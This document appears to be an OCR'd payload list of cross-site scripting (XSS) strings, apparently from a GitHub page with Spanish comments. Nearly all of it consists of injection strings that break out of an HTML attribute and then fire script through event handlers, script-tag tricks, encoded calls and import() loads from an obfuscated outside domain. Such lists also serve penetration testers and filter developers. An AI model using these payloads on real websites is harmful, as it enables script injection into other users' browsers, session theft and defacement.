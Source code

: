 ```
cgonzalo"><audio src onloadstart=alert(1)>

cgonzalo"><audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>

--- <marquee> ---

cgonzalo"><marquee onstart=alert(1)>

--- <meter> ---

cgonzalo"><meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

--- <button> ---

cgonzalo"><button onfocus=alert(document.domain) '</</</</</</</</autofocus>Click Me!</button>

--- <object> ---

cgonzalo"><object data="https://www.youtube.com/embed/P5asvR0h3OQ?autoplay=1" onmouseout=alert(document.domain)></object>

--- <body> ---

cgonzalo"><body onload=alert(/XSS/.source)>

cgonzalo"><body onafterprint=alert(1)>

'"--><Body onbeforescriptexecute="[1].map(confirm)">

cgonzalo"><body onbeforeprint=alert(8)> (Presionar CTRL + P)

cgonzalo"><body ontouchstart=alert(1)>  (Se activa cuando un dedo toca la pantalla)

cgonzalo"><body ontouchend=alert(1)>   (Se activa cuando se quita un dedo de la pantalla táctil)

cgonzalo"><body ontouchmove=alert(1)>  (Cuando se arrastra un dedo por la pantalla)

cgonzalo"><style/onload=import(/\\Ǌ.₨/)>

cgonzalo"><iframe/onload=import(/\\Ǌ.₨/)>

cgonzalo"><iframe/src="data:text/html,<svg onload=alert(1)>">

cgonzalo"><input type=image src onerror="prompt(1)">

cgonzalo"><img src="/" =_=" title="onerror='prompt(1)'">

cgonzalo"><script x> alert(1) </script 1=2

cgonzalo"><script x>alert('XSS')<script y>

cgonzalo"><script>$=1,alert($)</script>

cgonzalo"><script>$=1,\u0061lert($)</script>

cgonzalo"><</script/script><script>eval('\\u'+'0061'+'lert(1)')//</script>

cgonzalo"></style></scRipt><scRipt>alert(1)</scRipt>

cgonzalo"><img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)>

cgonzalo"><svg><x><script>alert('1'&#41</x>

```